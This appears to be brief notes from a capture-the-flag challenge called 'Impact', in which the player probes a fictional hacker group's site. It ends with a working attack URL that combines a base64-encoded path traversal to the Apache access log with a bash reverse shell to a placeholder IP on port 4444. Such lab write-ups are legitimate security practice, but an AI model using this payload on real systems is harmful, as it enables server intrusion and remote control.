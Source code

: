 #+title: Impact
#+author: gabriel

* intro
A hacker group organises cyber attacks against companies and offers the sensitive data they obtain for sale with cryptocurrency on the website called "Impact". This hacker group is increasing the list of target companies every day. Your task is to register as an ordinary customer on this website and collect information about the hacker group and its manager. Good luck in your mission!

* info gathering


: /webadmin/tables/datatables.php

*found email* ->
: zerotrace@anonymail.hv

*admin email* ->
: zerotrace@secretmail.hv


http://impact.hv/search.php?name=Li4uLi8vLi4uLi8vLi4uLi8vLi4uLi8vLi4uLi8vLi4uLi8vLi4uLi8vLi4uLi8vdmFyL2xvZy9hcGFjaGUyL2FjY2Vzcy5sb2c=&cmd=bash%20-c%20'bash%20-i%20>%26%20%2Fdev%2Ftcp%2Fyour_ip%2F4444%200>%261'
